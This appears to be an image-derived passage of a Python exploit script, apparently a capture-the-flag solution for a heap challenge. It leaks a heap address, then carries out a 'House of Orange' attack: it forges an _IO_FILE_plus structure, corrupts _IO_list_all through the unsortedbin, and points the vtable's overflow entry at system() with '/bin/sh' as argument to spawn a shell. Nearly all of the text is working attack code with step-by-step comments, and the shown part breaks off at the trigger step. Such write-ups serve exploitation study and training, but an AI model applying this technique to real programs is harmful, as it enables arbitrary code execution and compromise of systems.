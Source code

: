 ```python
edit(chunk_D_r, b"D" * 0x50 + b"/bin/sh\x00" + b"\x51")

# Put the 0x50 chunk inside the 0x50 smallbin. 
# Now it should be the head of that smallbin, hence contains two pointers to the smallbin chunk allocated at the prior stage. 
chunk_E_r = malloc()

data = read(chunk_C_r)
heap_leak = u64(data[:8]) - 0xc0

info(f"heap leak:{hex(heap_leak)}")

######################### HOUSE OF ORANGE ########################

# Now that i got leaks, i can perform house of orange.
# My goal is to craft a chunk that resides at the unsortedbin, and would move to the smallbin[0x60] during the next malloc call. 
chunk_A_rr = malloc()
chunk_B_rr = malloc()
chunk_C_rr = malloc()
chunk_E_rr = malloc()
chunk_F_rr = malloc()

# Like before, prepare chunk_B for fake size of 0x91
edit(chunk_C_rr, b"C" * chunk_C_padding + p64(fake_prev_size) + p64(fake_size) + fake_fd + fake_bk + fake_next_chunk_prev_size + fake_next_chunk_size)
edit(chunk_A_rr, b"A" * 0x50 + p64(0x60) + p64(new_chunk_B_size))

# Get a fresh 0x90 chunk within the unsortedbin
free(chunk_B_rr)

# remaindering, move the 0x30 chunk to the unsortedbin
chunk_D_rr = malloc()

# Overwrite the fake chunk to size 0x69, so it will be mapped to the 0x60 smallbin at the next malloc.
# Note that the binary only allows allocations of 0x60 chunks. 
# The trick is to set its size to 0x69, so it is considered as 0x68 != 0x60, and being sorted into the smallbin instead of allocated from the unsortedbin. 
# Also note that i've set "/bin/sh\x00" here, because the fake file stream points exactly to the chunk start. 
# Since IO_OVERFLOW calls fp->overflow(fp, BLA) - it uses the current file stream pointer as its first argument. 
# By setting the first 8 bytes like so, fp is a pointer to "/bin/sh" string. 
edit(chunk_D_rr, b"D" * 0x50 + b"/bin/sh\x00" + b"\x69")

# I have to keep crafting the fake _IO_FILE_plus struct (started by overwriting the "flags" with /bin/sh)
# Recall that chunks E and F are contigious in memory to chunk C. 
# This will make sure _IO_list_all would be overwritten with the unsortedbin arena address. 
# In order to pass the IO_OVERFLOW conditions, i have to pass write_base(1) < write_ptr(2).
new_fd = 0
new_bk = libc.sym._IO_list_all - 0x10
edit(chunk_C_rr, p64(new_fd) + p64(new_bk) + p64(1) + p64(2))

# Point the vtable of the stream to an heap address, contains many function pointers of system(). 
# In particular, vtable->__overflow points to system(). 
vtable_ptr = heap_leak + 0x440
overflow = libc.sym.system
# I want to make sure mode == -1 < 0 so the IO_OVERFLOW condition pass
edit(chunk_E_rr, b"\xff" * 0x58) 
edit(chunk_F_rr, p64(vtable_ptr) * 2 + p64(overflow) * 9)
# Trigger partial unlink of the unsorted bin chunk 0x69.
```